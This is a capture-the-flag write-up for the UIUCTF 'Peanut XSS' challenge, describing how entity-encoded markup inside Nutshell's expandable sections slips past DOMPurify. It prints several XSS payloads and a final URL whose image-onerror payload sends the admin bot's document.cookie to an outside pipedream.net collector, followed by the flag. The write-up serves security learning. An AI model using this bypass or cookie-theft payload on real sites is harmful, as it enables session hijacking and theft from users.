

# Peanut XSS
## Description
>Nutshell is pretty cool. Want to test it out?
>
>admin bot: nc peanut-xss-bot.chal.uiuc.tf 1337
>
>Author: arxenix
>
> 52 solves
# Attachments 
>
>We were given 2 links one to https://ncase.me/nutshell/ which talks about what is nutshell and the other to the challenge website https://peanut-xss-web.chal.uiuc.tf/ 
>
## The Site
Upon first looking at the site a few things stand out the website seems to have a html parser written into the site where you type your html and it will generate the content.
Two things that instantly pop out is the warning that the site uses dompurify so that we "surely won't be able to steal the admin-bots document.cookie
As well as the apparent indication that the site uses nutshell by the : being used in the example html.

After examing the html we see a interesting script function at the bottom

```js

      const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "htmlmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```

We can see from this js that DOMPurify is used on our passed-in nutshell parameter before nutshell parses it
Next, I attempted to send some test xss payouts to see how they looked after they were santizied 
passing in a simple ```<script>alert(1)</script>``` payload resulted in this being passed in as the parameter
```
?nutshell=%0A<script>alert(1)<%2Fscript>
```
I then tried various other xss payloads looking for one that would bypass dompurify before realizing I was ignoring the whole purpose of the challenge and not even using nutshell at all whoops
After looking into what nut shell does I saw this 
```
Nutshell is a tool to make "expandable, embeddable explanations", like this! They can even be recursive. (← click me 👆) This lets your readers learn what they need, just-in-time, always-in-context.
```

So then I modified my payload to ```<p>just make a link with :colon at the front… <a href="#ToWriteASection">:<script>alert(1)</script></a>!</p>``` which is just there example payload with my xss payload this resulted in nutshell
creating one of its expandable but still nothing at this point I was confused and started looking into nut shells code and found out it also uses dompurify which suprised me at first before realizing this must mean the issue is with nut shells 
implementation of dom purify so I started looking at both the code and similar examples and trying various xss payloads before stumbling on this one ```:&lt;img src=x onerror=alert(1)&gt;&lt;/img&gt;``` where the <> brackets are instead replaced with html entities and sure enough combined with using nutshells expandable embedded explanations which are inputted by using the :


The next part was simple enough we just had to take our newfound knowledge and craft a simple payload to send to the admin bot. Simply replacing the brackets in a normal xxs cookie payload was good enough.
```
https://peanut-xss-web.chal.uiuc.tf/?nutshell=%3Chtml%3E%0A%3Cbody%3E%0A%20%20%20%20%3Ch2%3ETo%20write%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Cp%3Ejust%20use%20headings%20%26%20paragraphs%20like%20this!%20Then%E2%80%A6%3C%2Fp%3E%0A%20%20%20%20%3Ch2%3ETo%20embed%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Ca%20href%3D%22%23ToWriteASection%22%3E%3A%26lt%3Bimg%20src%3Dx%20onerror%3Dthis.src%3D%27https%3A%2F%2Feor2d2npr01b93o.m.pipedream.net%2F%3F%27%2Bdocument.cookie%3B%26gt%3B%26lt%3B%2Fimg%26gt%3B%3C%2Fa%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%20%20%20%20
```
```
uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}
```
